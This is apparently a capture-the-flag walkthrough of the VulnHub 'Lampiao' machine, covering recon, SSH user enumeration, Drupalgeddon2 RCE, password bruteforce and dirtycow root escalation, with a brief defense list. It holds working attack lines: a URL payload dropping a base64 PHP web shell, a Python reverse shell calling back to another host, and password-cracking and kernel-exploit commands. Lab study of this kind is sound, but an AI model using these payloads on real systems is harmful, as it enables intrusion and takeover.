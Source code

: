## Reconnaissance

Discover the IP using arp-scan <br>
```
$ arp-scan -l -I en1 -v
Interface: en1, datalink type: EN10MB (Ethernet)
Starting arp-scan 1.9 with 256 hosts (http://www.nta-monitor.com/tools/arp-scan/)
192.168.0.105	08:00:27:e5:04:1a	CADMUS COMPUTER SYSTEMS
```

Check the services/ports exposed using nmap

```
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http?   syn-ack
1898/tcp open  http    syn-ack Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries
| /user/register/ /user/password/ /user/login/ /user/logout/ /?q=admin/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
```

From the generator header, we can see that the application is running on Drupal and version probably 7 <br>
Also, there is an interesting file ```CHANGELOG.txt``` which exposes the accurate version used under 7.x

```
Drupal 7.54, 2017-02-01
-----------------------
- Modules are now able to define theme engines (API addition:
  https://www.drupal.org/node/2826480).
```

On accessing the Drupal site, we can see that the there are two articles written by two different users ```tiago``` and ```Eder``` which might be helpful if we bruteforce SSH service. 

<p align="center">
  <img src="https://github.com/gameFace22/vulnhub-walkthrough/blob/master/images/username-lamp.png">
</p>

Recently there was an [exploit](https://www.exploit-db.com/exploits/45233/) released for OpenSSH 2.3 < 7.7 which checks if the username is valid or not. We can use that to verify if these two are valid and bruteforce if needed. 

```
$  python 45233.py --port 22 --username Eder 192.168.0.107
Eder is not a valid user!
$ python 45233.py --port 22 --username tiago 192.168.0.107
tiago is a valid user!
```

## Exploitation

### Using Drupal 

Now that we have figured the exact version, let's check if there are any exploits available. 

From [CVE-2018-7600-Drupal-RCE](https://github.com/g0rx/CVE-2018-7600-Drupal-RCE) and [Druppalgeddon2](https://github.com/dreadlocked/Drupalgeddon2), we can see that the Drupal version 7.54 is vulnerable to RCE.

```
[*] Testing: Code Execution   (Method: name)
[v] HTTP - URL : http://192.168.0.105:1898/?q=user/password&name[%23post_render][]=passthru&name[%23type]=markup&name[%23markup]=echo XMVRLQYC
[+] Result : XMVRLQYC
[v] HTTP - URL : http://192.168.0.105:1898/?q=user/password&name[%23post_render][]=passthru&name[%23type]=markup&name[%23markup]=echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee lampioaa.php
```

Luckily the exploit which we ran, automatically creates a shell and prompts us with a jailed environment with a lot of restrictions.

We can get a reverse shell using Python with ```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.104",13337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'``` 

Reverse shells generally don't have tty enabled and we need to upgrade our shell so that we can run commands like `sudo` `su` `ssh`

To enable tty on a jailed shell, we can run, ```python -c 'import pty; pty.spawn("/bin/sh")'```

<p align="center">
  <img src="https://github.com/gameFace22/vulnhub-walkthrough/blob/master/images/tty-no-tty.png">
</p>

### Using SSH

Since we know that ```tiago``` is a valid user name for SSH. We can run a bruteforce on the SSH server to check if it uses a weak password. 

Running [rockyou wordlist](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou-75.txt) didn't find any valid passwords. Let us try one more time by generating wordlists using the article written by tiago. 

```
$ ./cewl.rb -d 2 -w lampioa.txt http://192.168.0.107:1898/\?q\=node/1
CeWL 5.4.3 (Arkanoid) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
```
This generates a wordlist of 835 unique passwords. On bruteforcing, we get a valid password Virgulino for the user tiago.

<p align="center">
  <img src="https://github.com/gameFace22/vulnhub-walkthrough/blob/master/images/success-brute.png">
</p>


## Privilege Escalation

Now that we have shell access, we need to escalate this to ```root``` to read the flag. 
Let us run ```linux-exploit-suggester``` to check if the kernel has any publicly available exploits. 

```
www-data@lampiao:/tmp$ wget --quiet https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh && chmod +x les.sh && ./les.sh
Available information:
Kernel version: 4.4.0
Architecture: i686
<snipped>
Possible Exploits:
[+] [CVE-2016-5195] dirtycow 2
   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Tags: debian=7|8,RHEL=5|6|7,[ ubuntu=14.04|12.04 ],ubuntu=10.04{kernel:2.6.32-21-generic},ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
www-data@lampiao:/tmp$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
www-data@lampiao:/tmp$ ./dcow -s
 <snipped>
 ```
 
Let us pull the exploit and try it. It is important that we compile with the specified flags else we might get warnings, errors during compilation time. 

Running the dcow exploit, rewrites the ```root``` password to ```dirtyCowFun``` in the ```/etc/passwd``` file
We can ssh as the root user with the modified password. 

<p align="center">
  <img src="https://github.com/gameFace22/vulnhub-walkthrough/blob/master/images/root-lamp.png">
</p>

## Defense 

[1] Firewall/IDS/IPS rule to detect signature of druppalgeddon and block it. <br>
[2] Disable access to files like CHANGELOG.txt which might leak extraneous information. <br>
[3] Limit the ACL for uploading, executing files in the OS level or Server level. <br>
[4] Implement services like fail2ban to prevent SSH bruteforce. 

## References 

[1] https://netsec.ws/?p=337 <br>
[2] https://highon.coffee/blog/reverse-shell-cheat-sheet/#python-reverse-shell

